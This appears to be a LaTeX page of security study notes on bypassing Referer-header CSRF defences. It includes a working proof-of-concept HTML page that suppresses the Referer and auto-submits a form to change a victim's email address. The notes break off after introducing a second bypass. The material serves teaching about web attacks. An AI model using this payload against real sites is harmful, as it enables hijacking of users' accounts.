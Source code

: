 \documentclass{article}
\begin{document}
\subsection*{Referer header}
The HTTP Referer header (which is inadvertently misspelled in the HTTP specification) is an optional request header that contains the URL of the web page that linked to the resource that is being requested. It is generally added automatically by browsers when a user triggers an HTTP request, including by clicking a link or submitting a form. Various methods exist that allow the linking page to withhold or modify the value of the Referer header. This is often done for privacy reasons.

\begin{enumerate}
	\item \textbf{Validation of Referer depends on header being present}\\Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. 
	 Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.\\

In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: 
\begin{lstlisting}[frame=single]
<meta name="referrer" content="never">
\end{lstlisting}
Note $\Longrightarrow$ the meta tag is in the header not the body of the HTML page so, CSRF POC look like

\begin{lstlisting}[frame=single]
<html>
  <head>
     <meta name="referrer" content="never">
  <head>
  <body>
    <form action="website.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="er&#64;mal&#45;user&#46"/>
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

\end{lstlisting}

\item \textbf{Validation of Referer can be circumvented}\\
Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain: 


\end{enumerate}
\end{document}
